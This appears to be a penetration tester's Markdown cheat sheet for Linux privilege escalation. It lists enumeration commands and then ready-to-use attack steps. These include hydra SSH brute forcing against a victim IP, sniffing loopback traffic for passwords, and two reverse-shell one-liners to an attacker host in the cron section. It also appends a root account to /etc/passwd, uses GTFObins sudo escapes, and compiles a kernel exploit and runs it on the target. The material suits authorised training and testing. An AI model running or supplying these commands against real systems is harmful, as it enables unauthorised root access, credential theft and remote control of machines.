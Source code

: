 # Linux Privilege Escalation

## Manual enumeration

Commands:
- `id`
- `cat /etc/passwd`
- `hostname`
- `cat /etc/issue`
- `cat /etc/os-realease`
- `uname -a`
- `ps aux`
- `ip a`
- `routel`
- `ss -anp`
- `cat /etc/iptables/rules.v4`
- `ls -lah /etc/cron*`
- `crontab -l`
- `sudo crontab -l`
- `dpkg -l`
- `find / -writable -type d 2> /dev/null`
- `cat /etc/fstab`
- `mount`
- `lsblk`
- `lsmod`
- `/sbin/modinfo some_kernel_module`
- `find / -perm -u=s -type f 2> /dev/null`

## Automated enumeration

Initial baseline:
```
/usr/bin/unix-privesc-check
```
Check for example writable config files.

Other tools:
- LinEnum: https://github.com/rebootuser/LinEnum
- LinPeas: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

## Credentials

### Hidden in text files

Check:
- `env`
- `cat .bashrc`
- `su - root`
- `sudo -l`

### Brute force ssh with password hints

With a hint of password:
```
crunch 19 19 -t Hint_Of_Password%%% > wordlist
hydra -l user -P wordlist $VictimIP -t 4 ssh -V
```

### Hidden passwords in Services

```
watch -n1 "ps aux | grep pass | grep -v grep | fold -s
sudo tcpdump -i lo -A | grep "pass"
```

## Cron jobs

If the cron job is writeable, add a reverse shell:
```
bash -i >& /dev/tcp/$AttackerIp/$AttackerPort 0>&1
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc $AttackerIp $AttackerPort > /tmp/f
```
Rshells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Passwd file

```
openssl passwd passwordtohash
echo "newadmin:somehashstring:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## Capabilities

References:
- https://man7.org/linux/man-pages/man7/capabilities.7.html
- https://gtfobins.github.io/
```
/usr/sbin/getcap -r / 2> /dev/null
```

## SUID

Source: https://gtfobins.github.io/
```
find / -perm /6000 -exec ls -ld {} \; # setuid + setgid
grep Uid /proc/some_proc_number/status
ls -asl /usr/bin/some_binary
```

## Sudo

Check the commands usable with `sudo`:
```
sudo -l
```
then try to elevate privileges with them with [GTFObins](https://gtfobins.github.io/). For example:
- `tcpdump`: https://gtfobins.github.io/gtfobins/tcpdump/#sudo
```
COMMAND='id'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```
Check possible error messages in `/etc/var/messages`.
- `apt-get`: https://gtfobins.github.io/gtfobins/apt-get/#sudo
```
hackeduser@hackedtarget $: sudo apt-get changelog apt
```
and in `less`:
```
!/bin/sh
```
Check the escalation with the `id` command.

## Kernel vulnerabilities

Retrieve the kernel version and try to find an exploit on [exploitdb](https://www.exploit-db.com/):
- kernel version:
```
cat /etc/issue
uname -r
arch
```
- `searchsploit` command:
```
searchsploit -u
searchsploit "Linux kernel x.y.z privilege escalation" | grep -v ' < a.b.c'
```
- run the exploit:
```
cp /usr/share/exploitdb/exploits/linux/local/exploin_number.c ./num.c
gcc num.c
scp a.out hackeduser@TargetIp:
./a.out
```
Check with the `id` command.

## Misc

### Other resources

- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Linux - Privilege Escalation.md
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation

### Examples of exploits

- PwnKit: https://github.com/ly4k/PwnKit
- 

